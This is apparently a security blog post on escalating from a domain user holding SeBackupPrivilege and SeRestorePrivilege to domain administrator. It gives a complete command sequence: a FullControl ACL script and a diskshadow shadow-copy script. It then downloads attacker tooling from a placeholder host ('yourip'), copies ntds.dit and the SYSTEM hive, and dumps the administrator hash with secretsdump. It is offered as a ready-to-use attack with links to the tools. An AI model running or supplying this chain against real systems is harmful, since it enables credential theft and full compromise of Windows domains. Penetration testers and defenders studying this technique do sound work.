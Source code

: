 [back](/blog)

### Glad to see you domain admin

What can domain users with "SeBackupPrivilege" and "SeRestorePrivilege" privileges do?

![Image](/img/sebackup_and_serestore/1.png)

![Image](/img/sebackup_and_serestore/2.png)

Such user can easily get the domain administrator access. Firstly, using these privileges, you can assign an ACL with the "FullControl" flag to any directory and any file in the system (does not apply to encrypted files by EFS), this means "full rights" to read and write.

```
Import-Module ./Acl-FullControl.ps1
Acl-FullControl -user FQDN\domainuser -path c:\users\administrator - get access to any path
```

However, the juiciest files SAM, SYSTEM, SECURITY and NTDS.DIT will remain inaccessible (despite what works "reg save HKLM...), even with full rights due to constant use. But using the diskshadow utility (functionality provided by the Volume Shadow Copy Service) will help you create a shadow copy of the local disk with ntds.dit, and further mimicking the backup program using WIN32 API calls will help move ndts.dit to your local drive. 

```
shad.txt: - do not forget to add spaces =)
_________

set context clientaccessible   
set context persistent   
begin backup   
add volume c: alias mydrive  
create  
expose %mydrive% z:  
_________

powershell.exe Invoke-WebRequest "http://yourip/shad.txt -OutFile ./shad.txt"
diskshadow.exe /s C:\temp\ntdscopy\shad.txt
```

![Image](/img/sebackup_and_serestore/5.png)

then

```
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeCmdLets.dll -OutFile ./SeBackupPrivilegeCmdLets.dll"
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeUtils.dll -OutFile ./SeBackupPrivilegeUtils.dll"

Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege

Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit - now u got ntds.git copy =)

reg save HKLM\system system.save
```

Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)

```
python secretsdump.py -ntds /tmp/ntds.dit -system /tmp/system.save LOCAL
```

Glad to see you domain admin =)

Everything you need is here:

+ [Abusing-backup-operators-group](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group)
+ [Acl-FullControl.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)
+ [SeBackupPrivilegeCmdLets](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/blog)